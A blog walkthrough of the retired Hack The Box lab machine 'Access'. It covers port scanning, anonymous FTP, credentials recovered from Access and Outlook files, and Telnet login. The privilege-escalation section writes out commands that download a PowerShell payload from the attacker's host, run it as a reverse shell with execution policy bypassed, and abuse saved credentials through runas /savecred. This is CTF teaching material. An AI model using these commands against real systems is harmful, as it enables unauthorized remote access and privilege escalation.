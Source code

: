 ```yaml
---
layout: post
title: "Access: Hack The Box Walkthrough"
date: 2019-03-03 04:43:45 +0000
last_modified_at: 2019-03-03 04:46:16 +0000
category: Walkthrough
tags: ["Hack The Box", Access, retired]
comments: true
image:
  feature: access-htb-walkthrough.jpg
  credit: Pexels / Pixabay
  creditlink: https://pixabay.com/en/dark-door-door-handle-light-open-1852985/
---
```


This post documents the complete walkthrough of Access, a retired vulnerable [VM][1] created by [egre55][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Access is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.98 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-09 10:37:40 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.98
Discovered open port 23/tcp on 10.10.10.98
Discovered open port 21/tcp on 10.10.10.98
```

`masscan` finds three open ports: `21/tcp`, `23/tcp` and `80/tcp`. Let's do one better with `nmap` scanning these discovered ports.

```
# nmap -n -v -Pn -p21,23,80 -A --reason -oN nmap.txt 10.10.10.98
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```

Since anonymous FTP is allowed, let's check it out first.

<a class="image-popup">
![ee418d6f.png](/assets/images/posts/access-htb-walkthrough/ee418d6f.png)
</a>

There's a huge file in the `Backups` directory—`backup.mdb`. It appears to be a Microsoft Access Jet Database (MDB) file.

<a class="image-popup">
![0ce46389.png](/assets/images/posts/access-htb-walkthrough/0ce46389.png)
</a>

There's also a big file—`Access Control.zip`, in the `Engineers` directory.

<a class="image-popup">
![ea05e083.png](/assets/images/posts/access-htb-walkthrough/ea05e083.png)
</a>

The archive file is password-protected and it appears to contain a Personal Storage Table (PST) file in it.

## Microsoft Office

I know there are Linux tools to read MDB and PST files but for the sake of convenience, let's use Microsoft Office to open them. I'll use Microsoft Access to read the MDB file. Here's what I found in the `auth_user` table.

<a class="image-popup">
![access.png](/assets/images/posts/access-htb-walkthrough/access.png)
</a>

The password `access4u@security` is the one to extract the PST file from the archive. I'll use Microsoft Outlook to read the PST file. There's only one email in the mailbox.

<a class="image-popup">
![outlook.png](/assets/images/posts/access-htb-walkthrough/outlook.png)
</a>

Another credential (`security:4Cc3ssC0ntr0ller`) in the bag!

## Telnet

Let's give the credential a shot with the Telnet service.

<a class="image-popup">
![16c6c1e1.png](/assets/images/posts/access-htb-walkthrough/16c6c1e1.png)
</a>

Awesome.

The file `user.txt` is at `security`'s desktop.

<a class="image-popup">
![0c8d6cb5.png](/assets/images/posts/access-htb-walkthrough/0c8d6cb5.png)
</a>

## Privilege Escalation

Telnet is painfully slow. Let's run a reverse shell in PowerShell. First of all, let's write a `wget` script in PowerShell. Note that this system is running Windows Server 2008. As such, only PowerShell 2.0 is available. Echo the following lines to `C:\Users\security\Downloads\wget.ps1`.

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile($Args[0],$Args[1])
```

<a class="image-popup">
![7638e0eb.png](/assets/images/posts/access-htb-walkthrough/7638e0eb.png)
</a>

Next, generate a reverse shell in PowerShell with `msfvenom` like so.

<a class="image-popup">
![bfe9f363.png](/assets/images/posts/access-htb-walkthrough/bfe9f363.png)
</a>

Run the following commands in the `telnet` session to transfer `rev.ps1` over.

```
powershell -ExecutionPolicy Bypass -File wget.ps1 http://10.10.12.246/rev.ps1 rev.ps1
```

Now, we can execute the reverse shell with the following command.

```
powershell -ExecutionPolicy Bypass -NoExit -File rev.ps1
```

The `-NoExit` switch indicates that we don't want to exit from the thread. We should get a reverse shell in our `nc` listener.

<a class="image-popup">
![5f59bc8d.png](/assets/images/posts/access-htb-walkthrough/5f59bc8d.png)
</a>

During enumeration of `security`'s account, I ran the `cmdkey` command to list the stored credentials in the box and this is what I saw.

<a class="image-popup">
![d1e7b1c4.png](/assets/images/posts/access-htb-walkthrough/d1e7b1c4.png)
</a>

Perfect. This means that I can use the `/savecred` switch in `runas` to impersonate Administrator without knowing the password! Now, let's claim the prize with the following command:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"
```

<a class="image-popup">
![6874f21f.png](/assets/images/posts/access-htb-walkthrough/6874f21f.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/156
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
